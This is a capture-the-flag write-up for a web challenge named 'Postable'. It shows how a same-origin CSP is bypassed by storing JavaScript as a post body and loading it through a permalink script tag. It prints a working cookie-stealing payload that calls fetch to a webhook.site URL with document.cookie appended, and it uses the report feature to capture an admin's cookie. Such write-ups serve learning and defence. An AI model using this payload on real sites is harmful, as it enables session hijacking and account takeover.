 # Postable
## http://problems.getpwning.com:7070/

Creating an account and logging in gives us a form we can use to submit "posts".
When a post is made it will show up in your feed. Each post has a permalink button that will give you a URL for that post, 
and a report button that will flag the post for an admin to look at.

Trying some basic XSS in posts shows that the post bodies are not being sanitised, but trying to inject scripts does not appear to do anything.
Looking in the deveoper console shows that scripts are being blocked by a [Content Security Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy) rule.

Looking at the response headers we can see that the CSP header that is causing us trouble:
```
HTTP/1.1 304 Not Modified
X-Powered-By: Express
Content-Security-Policy: 
    script-src   'self';
    frame-src    'self';
    style-src    'self' https://fonts.googleapis.com/;
    font-src      https://fonts.gstatic.com/;
ETag: W/"54-jpVpAbPL4eUzydTTc3bEdAgXT1I"
Date: Sat, 23 Feb 2019 11:59:06 GMT
Connection: keep-alive
```
__script-src   'self'__ means we can only load script from the same origin as the document (http://problems.getpwning.com:7070/), _not_ inline or from an attacker-controlled server.

So if we want to do XSS we need to find a way to make the script originate from this site, but not as an inline script.

If we create a post with a script in the body, what do we get when we load that post?

```
http://problems.getpwning.com:7070/permalink?post=5c712e86a3c090310f2cee09
alert("hello")
```

We get just the body text (the script) back. So this is now a script with the same origin as the document.
We should now be able to load the script using XSS:

```
http://problems.getpwning.com:7070/permalink?post=5c712eada3c0906e452cee0a
<script src = "http://problems.getpwning.com:7070/permalink?post=5c712e86a3c090310f2cee09"></script>
```

And we see an alert box pop up.

Now we need to create a script that will call a resource we control. I am using [webhook.site](http://webhook.site) to monitor requests.
```
http://problems.getpwning.com:7070/permalink?post=5c713094a3c0906f8f2cee0e
fetch("http://webhook.site/ee5fbe15-1ccd-4a30-9b60-cd05cb92f240/")
```
Then use this as the script source in another post:
```
http://problems.getpwning.com:7070/permalink?post=5c7130bda3c090425b2cee0f
<script src = "http://problems.getpwning.com:7070/permalink?post=5c713094a3c0906f8f2cee0e"></script>
```

And we see a cross-site request is made to our server. Now we can change the script to steal the users cookies (where we suspect the flag is, or IRL where a users login token might be)

```
http://problems.getpwning.com:7070/permalink?post=5c71311ba3c090d8492cee11
fetch("http://webhook.site/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/" + document.cookie)
```
```
http://problems.getpwning.com:7070/permalink?post=5c71312ea3c09012d62cee12
<script src = "http://problems.getpwning.com:7070/permalink?post=5c71311ba3c090d8492cee11"></script>
```
Now when we load the page we see a request made to: ```http://webhook.site/ee5fbe15-1ccd-4a30-9b60-cd05cb92f240/token=....;%20user-auth=....```
Because its us viewing the post these are our own cookies (no help whatsoever) - we need to get an admin to view the post.

Reporting the post gets an admin to look at it, and we see the request to our server with the admin cookie - the flag.
```
http://webhook.site/xxxxxxxx-xxxx-xxxx-xxxx-xxxxxxxxxxxx/flag=CTF%7Bcreative-people-solve-crazy-security-problems%7D
```
